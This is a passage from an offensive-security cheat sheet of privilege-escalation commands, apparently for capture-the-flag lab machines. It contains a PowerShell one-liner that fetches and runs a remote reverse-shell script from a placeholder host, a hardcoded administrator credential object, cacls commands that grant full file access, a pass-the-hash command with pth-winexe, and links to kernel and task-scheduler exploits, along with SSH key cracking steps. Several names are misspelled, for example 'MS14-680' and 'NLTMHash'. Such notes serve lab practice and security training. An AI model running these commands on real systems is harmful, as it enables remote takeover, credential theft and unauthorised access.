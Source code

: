 ```
$passwd = ConvertTo-SecureString ‘PasswordofAdmin’ -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

A reverse shell can now be opened with the supplied creds using following command:
```
Start-Process -FilePath “powershell” -argumentlist “IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/InvokePowershellTCP.ps1')” -Credential $creds
```

12. Use cacls

To check Access Control:
```
Get-ACL file.txt | fl *
```
This will allow full access to file if use is a owner of the file.
```
cacls root.txt /t /e /p User:F
```

13. Perform Pass the Hash using pth-winexe
```
pth-winexe -U jeeves/Administrator%NLTMHash //ServerIP cmd
```

14. MS14-680

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek Reference Machine - Mantis

15. APLC Task Scheduler LPE

https://nvd.nist.gov/vuln/detail/CVE-2018-8440

In order to run this exploit we should have READ EXECUTE Access to Authenticated Users

icacls c:\Windows\Tasks folder

Reference Machine - Conceal

## Linux - Privilege Escalation Quick Wins!
1. SSH Files found:

if id_rsa file found then use ssh2john.py to crack the encypted password.
```
chmod 400 id_rsa
ssh -i id_rsa user@x.x.x.x
```

2. Look for services running locally which are not exposed to the public and to tunnel them to your box.

3. Create SSH keys:

This will create user.pub and user file
```
ssh-keygen -f user
chmod 600 user.pub
ssh -i user localuser@x.x.x.x
```
